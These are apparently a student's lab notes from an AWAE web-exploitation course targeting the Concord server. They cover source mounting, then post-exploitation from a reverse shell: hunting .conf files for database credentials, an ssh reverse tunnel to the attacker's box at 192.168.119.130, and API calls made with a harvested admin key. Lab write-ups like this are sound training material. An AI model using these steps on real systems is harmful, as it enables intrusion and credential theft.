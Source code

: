 We can remote mount the concord directories with:
```bash
sshfs -o allow_other,default_permissions student@concord:/home/student/concord-1.43.0 /home/vagrant/Desktop/awae/concord/part-1/1.43
```
```bash
sshfs -o allow_other,default_permissions student@concord:/home/student/concord-1.83.0 /home/vagrant/Desktop/awae/concord/part-1/1.83
```
Part 1 ExtraMile:  
Our reverse shell lands us in a docker container.  

We should promote the shell to a fully interactive tty.  
Python2.7 is installed on the container.  
We can find the concord.conf file with: 
```bash
find / -type f -name *.conf 2>/dev/null
```
The concord.conf file contains credentials to a posgres db.
In order to access the postgres port with our java client from our kali box we can do a reverse tunnel (from within the reverseshell):
```bash
ssh -N -R 5432:172.18.0.4:5432 tunnelboy@192.168.119.130 -o "StrictHostKeyChecking=no"
```
We can build our jdbc client with compile.ps1  

Api Token creation at: https://github.com/walmartlabs/concord/blob/master/server/liquibase-ext/src/main/java/com/walmartlabs/concord/server/liquibase/ext/ApiTokenCreator.java

Interacting with api with admin auth key
iwr -Uri 'http://concord:8001/api/v1/apikey' -Headers @{ Authorization = "basic "+ [System.Convert]::ToBase64String([System.Text.Encoding]::ASCII.GetBytes("KLI+ltQThpx6RQrOc2nDBaM/8tDyVGDw+UVYMXDrqaA"));ContentType= "application/json"}
curl -H "Authorization: basic KLI+ltQThpx6RQrOc2nDBaM/8tDyVGDw+UVYMXDrqaA" -H "Content-Type: application/json"  http://concord:8001/api/v1/apikey